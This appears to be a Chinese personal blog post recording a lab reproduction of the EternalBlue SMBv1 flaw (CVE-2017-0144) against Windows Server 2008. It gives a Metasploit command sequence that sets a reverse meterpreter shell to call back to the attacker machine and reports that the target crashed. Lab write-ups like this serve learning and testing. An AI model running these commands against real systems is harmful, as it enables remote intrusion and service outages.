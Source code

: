 # Windows Server 2008 CVE20170144验证

<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=29567192&auto=1&height=66"></iframe>  

歌挺好听，奈何水文太短，看完歌都没听完。😂抱歉了~嘿嘿嘿

本文也是照着别人写的例子完全操作成功了，然后再记录下来的，为方便以后使用，特此整理记录。

### 漏洞信息
CVEID：2017-0144  
漏洞名称：Windows server 2008系列缓冲区溢出漏洞（永恒之蓝）  
发布时间：2017-03-14

### 漏洞简介
Server Message Block（SMB）Server是为计算机提供身份验证用以访问服务器上打印机和文件系统的组件。 Microsoft Windows中的SMBv1服务器存在远程代码执行漏洞。远程攻击者可借助特制的数据包利用该漏洞执行任意代码。

### 实验环境
Kali x64（攻击机）：192.168.0.6  
Windows server 2008 x64（靶机）：192.168.0.9

```sh
msfconsole
use exploit/windows/smb/ms17_010_eternalbluer
set LHOST 192.168.0.6 
set RHOST 192.168.0.9 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

![winserver2008attack1](/images/posts/winserver2008attack1.png)



![winserver2008attack2](/images/posts/winserver2008attack2.png)



### 现象：

靶机windows server 2008 x64蓝屏宕机重启。

 ![winserver2008crush](/images/posts/winserver2008-crush.png)


---

> : 蓝红柿  
> URL: https://newdivide2014.github.io/zh/posts/win-server-2008-cve20170144/  

